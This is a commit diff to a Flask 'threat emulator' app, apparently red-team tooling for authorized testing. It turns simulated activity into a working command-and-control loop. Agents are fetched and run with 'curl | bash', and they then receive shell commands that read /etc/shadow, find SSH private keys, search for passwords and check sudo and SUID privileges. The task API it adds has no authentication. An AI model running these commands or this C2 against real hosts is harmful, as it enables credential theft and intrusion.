

Before and after one commit to alikisinyo/MarbleCone, a Flask app: page /agents in a window 1280 px wide. Shown: the part 72-1205 px from the top of the page at 91% size. Before the commit the page ends 860 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in.

Commit message:
Enhanced MarbleCone Threat Emulator with Real Command Execution, Credential Harvesting, and Lateral Movement Capabilities

```diff
--- a/app.py
+++ b/app.py
@@ -1,4 +1,4 @@
-from flask import Flask, render_template, request, jsonify, redirect, url_for, flash
+from flask import Flask, render_template, request, jsonify, redirect, url_for, flash, send_from_directory
 from flask_sqlalchemy import SQLAlchemy
 from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
 from werkzeug.security import generate_password_hash, check_password_hash
@@ -262,17 +262,31 @@ def create_operation():
         db.session.add(operation)
         db.session.commit()
 
-        # Start simulation in background
-        threading.Thread(target=simulate_marblecone_activities, args=(operation.id,), daemon=True).start()
+        # Send real commands to connected agents instead of simulation
+        threading.Thread(target=send_real_commands, args=(operation.id,), daemon=True).start()
 
         flash(f'Operation "{name}" started successfully!', 'success')
         return redirect(url_for('operations'))
 
     return render_template('create_operation.html', marblecone=MARBLECONE_PROFILE)
 
-@app.route('/api/agents', methods=['GET'])
-@login_required
+@app.route('/api/agents', methods=['GET', 'POST'])
 def api_agents():
+    if request.method == 'POST':
+        # Agent registration
+        data = request.get_json()
+        agent = Agent(
+            name=data['name'],
+            paw=data['paw'],
+            platform=data['platform'],
+            host=data['host'],
+            status=data.get('status', 'active')
+        )
+        db.session.add(agent)
+        db.session.commit()
+        return jsonify({'id': agent.id, 'status': 'registered'}), 200
+
+    # GET request - return all agents
     agents = Agent.query.all()
     return jsonify([{
         'id': agent.id,
@@ -282,6 +296,49 @@ def api_agents():
         'host': agent.host,
         'status': agent.status
     } for agent in agents])
+
+@app.route('/api/agents/<paw>/tasks', methods=['GET'])
+def api_agent_tasks(paw):
+    """Get pending tasks for an agent"""
+    agent = Agent.query.filter_by(paw=paw).first()
+    if not agent:
+        return jsonify({'error': 'Agent not found'}), 404
+
+    # Get pending tasks for this agent
+    pending_tasks = Task.query.filter_by(agent_id=agent.id, status='pending').all()
+
+    tasks = []
+    for task in pending_tasks:
+        tasks.append({
+            'id': task.id,
+            'command': task.command,
+            'description': f'Task {task.id}'
+        })
+
+    return jsonify({'tasks': tasks})
+
+@app.route('/api/tasks/<int:task_id>/result', methods=['POST'])
+def api_task_result(task_id):
+    """Submit task result"""
+    task = Task.query.get(task_id)
+    if not task:
+        return jsonify({'error': 'Task not found'}), 404
+
+    data = request.get_json()
+    if not data:
+        return jsonify({'error': 'No JSON data provided'}), 400
+
+    # Handle the agent's JSON format (result, exit_code, timestamp)
+    result = data.get('result', '')
+    exit_code = data.get('exit_code', 0)
+    timestamp = data.get('timestamp', '')
+
+    # Store the complete result data
+    task.result = f"Exit Code: {exit_code}\nTimestamp: {timestamp}\n\nOutput:\n{result}"
+    task.status = 'completed'
+    db.session.commit()
+
+    return jsonify({'status': 'success'})
 
 @app.route('/api/operations', methods=['GET'])
 @login_required
@@ -295,65 +352,259 @@ def api_operations():
         'created_at': operation.created_at.isoformat()
     } for operation in operations])
 
-def simulate_marblecone_activities(operation_id):
-    """Simulate MarbleCone threat activities"""
-    time.sleep(2)  # Initial delay
+@app.route('/agent/linux')
+def download_linux_agent():
+    """Download the Linux agent script"""
+    return send_from_directory(directory='.', path='marblecone_agent.sh', as_attachment=True, download_name='marblecone_agent.sh')
 
-    # Simulate reconnaissance
-    task1 = Task(
-        operation_id=operation_id,
-        agent_id=1,
-        command=MARBLECONE_PROFILE['abilities'][0]['command'],
-        status='completed',
-        result='System: WIN-ABC123\nHostname: DESKTOP-ABC123\nIP: 192.168.1.100'
+@app.route('/api/tasks', methods=['POST'])
+def api_create_task():
+    """Create a new task for an agent"""
+    data = request.get_json()
+
+    # Find the agent by PAW
+    agent = Agent.query.filter_by(paw=data['agent_paw']).first()
+    if not agent:
+        return jsonify({'error': 'Agent not found'}), 404
+
+    # Create the task
+    task = Task(
+        operation_id=data.get('operation_id', 1),
+        agent_id=agent.id,
+        command=data['command'],
+        status='pending'
     )
-    db.session.add(task1)
+    db.session.add(task)
     db.session.commit()
 
-    time.sleep(3)
+    return jsonify({
+        'id': task.id,
+        'status': 'created',
+        'message': f'Task created for agent {agent.name}'
+    }), 201
 
-    # Simulate credential harvesting
-    task2 = Task(
-        operation_id=operation_id,
-        agent_id=1,
-        command=MARBLECONE_PROFILE['abilities'][1]['command'],
-        status='completed',
-        result='[+] Found credentials:\nadmin:Password123!\nuser:SecurePass456'
-    )
-    db.session.add(task2)
+@app.route('/api/send_test_tasks', methods=['POST'])
+def send_test_tasks():
+    """Send test tasks to the connected Linux agent"""
+    # Find the Linux agent
+    agent = Agent.query.filter(Agent.name.like('linux-agent%')).first()
+    if not agent:
+        return jsonify({'error': 'No Linux agent found'}), 404
+
+    # Test tasks for Linux
+    test_tasks = [
+        {
+            'command': 'whoami && hostname && id',
+            'description': 'User and system information'
+        },
+        {
+            'command': 'ps aux | head -10',
+            'description': 'Process listing'
+        },
+        {
+            'command': 'netstat -tuln | head -10',
+            'description': 'Network connections'
+        },
+        {
+            'command': 'ls -la /tmp',
+            'description': 'Temporary directory listing'
+        },
+        {
+            'command': 'cat /etc/passwd | head -5',
+            'description': 'User account information'
+        }
+    ]
+
+    created_tasks = []
+    for task_data in test_tasks:
+        task = Task(
+            operation_id=1,  # Default operation
+            agent_id=agent.id,
+            command=task_data['command'],
+            status='pending'
+        )
+        db.session.add(task)
+        created_tasks.append({
+            'id': task.id,
+            'command': task.command,
+            'description': task_data['description']
+        })
+
     db.session.commit()
 
-    time.sleep(2)
+    return jsonify({
+        'message': f'Sent {len(created_tasks)} test tasks to agent {agent.name}',
+        'tasks': created_tasks
+    }), 201
 
-    # Simulate lateral movement
-    task3 = Task(
-        operation_id=operation_id,
-        agent_id=1,
-        command=MARBLECONE_PROFILE['abilities'][2]['command'],
-        status='completed',
-        result='Successfully connected to target system'
-    )
-    db.session.add(task3)
-    db.session.commit()
+def send_real_commands(operation_id):
+    """Send real commands to agents systematically"""
+    agents = Agent.query.filter_by(status='active').all()
+    if not agents:
+        print("No active agents found")
+        return
 
-    time.sleep(4)
+    # Enhanced command set with credential harvesting and lateral movement
+    real_commands = [
+        # Basic Reconnaissance
+        {
+            'command': 'whoami && id && groups',
+            'description': 'User identity and group information'
+        },
+        {
+            'command': 'hostname && uname -a',
+            'description': 'System information'
+        },
+        {
+            'command': 'ps aux | head -10',
+            'description': 'Process listing'
+        },
+        {
+            'command': 'netstat -tuln | head -10',
+            'description': 'Network connections'
+        },
+        {
+            'command': 'ls -la /tmp',
+            'description': 'Temporary directory listing'
+        },
+        {
+            'command': 'df -h',
+            'description': 'Disk usage information'
+        },
+        {
+            'command': 'w',
+            'description': 'Current users and system load'
+        },
+        {
+            'command': 'last | head -5',
+            'description': 'Recent login history'
+        },
 
-    # Simulate data exfiltration
-    task4 = Task(
-        operation_id=operation_id,
-        agent_id=1,
-        command=MARBLECONE_PROFILE['abilities'][3]['command'],
-        status='completed',
-        result='Data compressed and ready for exfiltration'
-    )
-    db.session.add(task4)
-    db.session.commit()
+        # Credential Harvesting
+        {
+            'command': 'cat /etc/passwd | head -10',
+            'description': 'User account enumeration'
+        },
+        {
+            'command': 'cat /etc/shadow 2>/dev/null || echo "Shadow file not accessible"',
+            'description': 'Password hash extraction attempt'
+        },
+        {
+            'command': 'find /home -name "*.bash_history" -exec tail -5 {} \; 2>/dev/null || echo "No bash history found"',
+            'description': 'Bash history search'
+        },
+        {
+            'command': 'find /home -name ".ssh" -type d 2>/dev/null || echo "No SSH directories found"',
+            'description': 'SSH key discovery'
+        },
+        {
+            'command': 'find /home -name "id_rsa" -o -name "id_dsa" -o -name "*.pem" 2>/dev/null || echo "No private keys found"',
+            'description': 'Private key discovery'
+        },
+        {
+            'command': 'grep -r "password\|passwd\|pwd" /home/*/.bashrc /home/*/.profile 2>/dev/null || echo "No password references found"',
+            'description': 'Password reference search'
+        },
+
+        # Lateral Movement Preparation
+        {
+            'command': 'cat /etc/hosts',
+            'description': 'Host file analysis'
+        },
+        {
+            'command': 'arp -a',
+            'description': 'ARP table analysis'
+        },
+        {
+            'command': 'netstat -rn',
+            'description': 'Routing table analysis'
+        },
+        {
+            'command': 'ping -c 1 8.8.8.8 2>/dev/null || echo "No internet connectivity"',
+            'description': 'Internet connectivity test'
+        },
+        {
+            'command': 'which ssh 2>/dev/null || echo "SSH not found"',
+            'description': 'SSH client availability'
+        },
+        {
+            'command': 'which nc 2>/dev/null || echo "Netcat not found"',
+            'description': 'Netcat availability'
+        },
+        {
+            'command': 'which python3 2>/dev/null || echo "Python3 not found"',
+            'description': 'Python3 availability'
+        },
+
+        # Persistence and Privilege Escalation
+        {
+            'command': 'crontab -l 2>/dev/null || echo "No crontab found"',
+            'description': 'Scheduled tasks enumeration'
+        },
+        {
+            'command': 'ls -la /etc/cron.* 2>/dev/null || echo "No cron directories found"',
+            'description': 'System cron jobs'
+        },
+        {
+            'command': 'find / -perm -4000 -type f 2>/dev/null | head -5 || echo "No SUID files found"',
+            'description': 'SUID file discovery'
+        },
+        {
+            'command': 'sudo -l 2>/dev/null || echo "No sudo access"',
+            'description': 'Sudo privileges check'
+        },
+        {
+            'command': 'groups',
+            'description': 'Current user groups'
+        }
+    ]
+
+    # Send commands to each agent systematically
+    for agent in agents:
+        print(f"Starting systematic command execution for agent {agent.name}")
+
+        for i, cmd_data in enumerate(real_commands):
+            # Create task
+            task = Task(
+                operation_id=operation_id,
+                agent_id=agent.id,
+                command=cmd_data['command'],
+                status='pending'
+            )
+            db.session.add(task)
+            db.session.commit()
+
+            print(f"Created task {task.id}: {cmd_data['description']}")
+
+            # Wait for task completion (poll every 3 seconds, max 120 seconds)
+            max_wait = 120  # Increased from 60 to 120 seconds
+            wait_time = 0
+            while wait_time < max_wait:
+                time.sleep(3)  # Increased from 2 to 3 seconds
+                wait_time += 3
+
+                # Check if task is completed
+                task = Task.query.get(task.id)
+                if task and task.status == 'completed':
+                    print(f"Task {task.id} completed: {cmd_data['description']}")
+                    break
+                elif wait_time >= max_wait:
+                    print(f"Task {task.id} timed out: {cmd_data['description']}")
+                    task.status = 'timeout'
+                    db.session.commit()
+                    break
+
+            # Small delay between commands
+            time.sleep(2)  # Increased from 1 to 2 seconds
 
     # Mark operation as completed
     operation = Operation.query.get(operation_id)
     operation.status = 'completed'
     operation.completed_at = datetime.datetime.utcnow()
     db.session.commit()
+
+    print(f"Operation {operation_id}: COMPLETED - All commands executed systematically")
+    print(f"Download the report from the Operations page to see all results!")
 
 def create_sample_data():
     """Create sample data for demonstration"""
@@ -379,6 +630,131 @@ def create_sample_data():
 
     db.session.commit()
 
+@app.route('/api/agents/<int:agent_id>', methods=['DELETE'])
+def delete_agent(agent_id):
+    agent = Agent.query.get(agent_id)
+    if not agent:
+        return jsonify({'error': 'Agent not found'}), 404
+    db.session.delete(agent)
+    db.session.commit()
+    return jsonify({'status': 'deleted'})
+
+@app.route('/api/operations/<int:operation_id>', methods=['DELETE'])
+def delete_operation(operation_id):
+    operation = Operation.query.get(operation_id)
+    if not operation:
+        return jsonify({'error': 'Operation not found'}), 404
+    Task.query.filter_by(operation_id=operation_id).delete()
+    db.session.delete(operation)
+    db.session.commit()
+    return jsonify({'status': 'deleted'})
+
+@app.route('/api/operations/<int:operation_id>/report', methods=['GET'])
+def operation_report(operation_id):
+    operation = Operation.query.get(operation_id)
+    if not operation:
+        return "Operation not found", 404
+
+    tasks = Task.query.filter_by(operation_id=operation_id).order_by(Task.id).all()
+
+    report_lines = [
+        "=" * 80,
+        f"MARBLECONE THREAT EMULATION OPERATION REPORT",
+        "=" * 80,
+        f"Operation Name: {operation.name}",
+        f"Operation ID: {operation.id}",
+        f"Status: {operation.status.upper()}",
+        f"Created: {operation.created_at.strftime('%Y-%m-%d %H:%M:%S')}",
+        f"Completed: {operation.completed_at.strftime('%Y-%m-%d %H:%M:%S') if operation.completed_at else 'N/A'}",
+        f"Total Tasks: {len(tasks)}",
+        f"Completed Tasks: {len([t for t in tasks if t.status == 'completed'])}",
+        f"Failed Tasks: {len([t for t in tasks if t.status == 'timeout'])}",
+        "",
+        "EXECUTION SUMMARY:",
+        "-" * 40,
+    ]
+
+    # Group tasks by agent
+    agents = {}
+    for task in tasks:
+        agent = Agent.query.get(task.agent_id)
+        if agent:
+            if agent.name not in agents:
+                agents[agent.name] = []
+            agents[agent.name].append(task)
+
+    for agent_name, agent_tasks in agents.items():
+        report_lines.extend([
+            f"",
+            f"AGENT: {agent_name}",
+            f"Platform: {Agent.query.filter_by(name=agent_name).first().platform}",
+            f"Host: {Agent.query.filter_by(name=agent_name).first().host}",
+            f"Tasks Executed: {len(agent_tasks)}",
+            f"",
+        ])
+
+        for i, task in enumerate(agent_tasks, 1):
+            report_lines.extend([
+                f"Task {i}: {task.command}",
+                f"Status: {task.status.upper()}",
+                f"Result:",
+                f"{task.result or 'No result available'}",
+                f"",
+                "-" * 60,
+                f"",
+            ])
+
+    report_lines.extend([
+        "",
+        "=" * 80,
+        "REPORT GENERATED: " + datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S'),
+        "MarbleCone Threat Emulator - Real Command Execution Results",
+        "=" * 80,
+    ])
+
+    report = "\n".join(report_lines)
+    return report, 200, {
+        'Content-Type': 'text/plain; charset=utf-8',
+        'Content-Disposition': f'attachment; filename=marblecone_operation_{operation_id}_report.txt'
+    }
+
+@app.route('/api/operations/<int:operation_id>/status', methods=['GET'])
+def api_operation_status(operation_id):
+    """Get operation status"""
+    operation = Operation.query.get(operation_id)
+    if not operation:
+        return jsonify({'error': 'Operation not found'}), 404
+
+    tasks = Task.query.filter_by(operation_id=operation_id).all()
+    completed_tasks = len([t for t in tasks if t.status == 'completed'])
+    failed_tasks = len([t for t in tasks if t.status == 'timeout'])
+
+    return jsonify({
+        'id': operation.id,
+        'name': operation.name,
+        'status': operation.status,
+        'total_tasks': len(tasks),
+        'completed_tasks': completed_tasks,
+        'failed_tasks': failed_tasks,
+        'created_at': operation.created_at.isoformat() if operation.created_at else None,
+        'completed_at': operation.completed_at.isoformat() if operation.completed_at else None
+    })
+
+@app.route('/api/operations/<int:operation_id>/start', methods=['POST'])
+def api_start_operation(operation_id):
+    """Start systematic command execution for an operation"""
+    operation = Operation.query.get(operation_id)
+    if not operation:
+        return jsonify({'error': 'Operation not found'}), 404
+
+    # Start the systematic command execution in a background thread
+    import threading
+    thread = threading.Thread(target=send_real_commands, args=(operation_id,))
+    thread.daemon = True
+    thread.start()
+
+    return jsonify({'status': 'started', 'message': 'Command execution started'})
+
 if __name__ == '__main__':
     with app.app_context():
         db.create_all()
--- a/templates/agents.html
+++ b/templates/agents.html
@@ -99,33 +99,69 @@
     <div class="col-12">
         <div class="card">
             <div class="card-header">
-                <h5><i class="fas fa-info-circle"></i> Agent Registration</h5>
+                <h5><i class="fas fa-download"></i> Download Agents</h5>
             </div>
             <div class="card-body">
                 <div class="row">
                     <div class="col-md-6">
-                        <h6>Windows Agent</h6>
-                        <pre class="bg-dark text-light p-3 rounded"><code># Download and run the Windows agent
-powershell -c "Invoke-WebRequest -Uri 'http://localhost:5000/agent/windows' -OutFile 'agent.exe'"
+                        <div class="card h-100">
+                            <div class="card-header">
+                                <h6><i class="fab fa-windows"></i> Windows Agent</h6>
+                            </div>
+                            <div class="card-body">
+                                <p class="text-muted">Windows PowerShell-based agent for threat emulation.</p>
+                                <button class="btn btn-primary btn-sm" onclick="downloadAgent('windows')">
+                                    <i class="fas fa-download"></i> Download Windows Agent
+                                </button>
+                                <div class="mt-3">
+                                    <small class="text-muted">Usage:</small>
+                                    <pre class="bg-dark text-light p-2 rounded small"><code>powershell -c "Invoke-WebRequest -Uri 'http://localhost:5000/agent/windows' -OutFile 'agent.exe'"
 ./agent.exe</code></pre>
+                                </div>
+                            </div>
+                        </div>
                     </div>
                     <div class="col-md-6">
-                        <h6>Linux Agent</h6>
-                        <pre class="bg-dark text-light p-3 rounded"><code># Download and run the Linux agent
-curl -O http://localhost:5000/agent/linux
-chmod +x agent
-./agent</code></pre>
+                        <div class="card h-100">
+                            <div class="card-header">
+                                <h6><i class="fab fa-linux"></i> Linux Agent</h6>
+                            </div>
+                            <div class="card-body">
+                                <p class="text-muted">Bash-based agent for Linux threat emulation.</p>
+                                <button class="btn btn-success btn-sm" onclick="downloadAgent('linux')">
+                                    <i class="fas fa-download"></i> Download Linux Agent
+                                </button>
+                                <div class="mt-3">
+                                    <small class="text-muted">Usage:</small>
+                                    <pre class="bg-dark text-light p-2 rounded small"><code>curl -O http://localhost:5000/agent/linux
+chmod +x marblecone_agent.sh
+./marblecone_agent.sh</code></pre>
+                                </div>
+                            </div>
+                        </div>
                     </div>
                 </div>
 
-                <div class="alert alert-info mt-3">
-                    <h6><i class="fas fa-exclamation-triangle"></i> Important Notes:</h6>
+                <div class="alert alert-warning mt-3">
+                    <h6><i class="fas fa-exclamation-triangle"></i> Important Security Notes:</h6>
                     <ul class="mb-0">
-                        <li>Agents must be run with appropriate permissions</li>
+                        <li><strong>This is a threat emulation environment only</strong> - no real malicious activity occurs</li>
+                        <li>Agents must be run with appropriate permissions and network access</li>
                         <li>Network connectivity to the MarbleCone server is required</li>
-                        <li>Agents will automatically register and begin receiving tasks</li>
-                        <li>This is a simulation environment - no real malicious activity occurs</li>
+                        <li>Agents will automatically register and begin receiving simulation tasks</li>
+                        <li>Use only in authorized testing environments</li>
                     </ul>
+                </div>
+
+                <div class="alert alert-info">
+                    <h6><i class="fas fa-info-circle"></i> Quick Start:</h6>
+                    <ol class="mb-0">
+                        <li>Download the appropriate agent for your platform</li>
+                        <li>Make the script executable (Linux) or run as administrator (Windows)</li>
+                        <li>Execute the agent - it will automatically connect to this server</li>
+                        <li>Monitor agent activity in the dashboard above</li>
+                        <li>Create operations to send tasks to connected agents</li>
+                    </ol>
                 </div>
             </div>
         </div>
@@ -190,8 +226,50 @@ function viewAgentDetails(agentId) {
 
 function deleteAgent(agentId) {
     if (confirm('Are you sure you want to delete this agent?')) {
-        // In a real implementation, this would send a DELETE request
-        alert('Agent deletion simulated. In a real implementation, this would remove the agent from the database.');
+        fetch(`/api/agents/${agentId}`, {
+            method: 'DELETE'
+        })
+        .then(response => response.json())
+        .then(data => {
+            if (data.status === 'deleted') {
+                alert('Agent deleted successfully.');
+                refreshAgents();
+            } else {
+                alert('Failed to delete agent: ' + (data.error || 'Unknown error'));
+            }
+        })
+        .catch(err => alert('Error deleting agent: ' + err));
+    }
+}
+
+function downloadAgent(platform) {
+    const url = `http://localhost:5000/agent/${platform}`;
+
+    if (platform === 'linux') {
+        // For Linux, show instructions
+        const instructions = `
+# Download and run the Linux agent:
+
+curl -O ${url}
+chmod +x marblecone_agent.sh
+./marblecone_agent.sh
+
+# Or download directly and execute:
+curl -s ${url} | bash
+        `;
+
+        // Create a temporary textarea to copy instructions
+        const textarea = document.createElement('textarea');
+        textarea.value = instructions;
+        document.body.appendChild(textarea);
+        textarea.select();
+        document.execCommand('copy');
+        document.body.removeChild(textarea);
+
+        alert('Linux agent download instructions copied to clipboard!\n\nYou can also download directly from: ' + url);
+    } else {
+        // For Windows, trigger download
+        window.open(url, '_blank');
     }
 }
 
```
Also changed, not shown: templates/operations.html (+17 -4 lines), 3 other files.
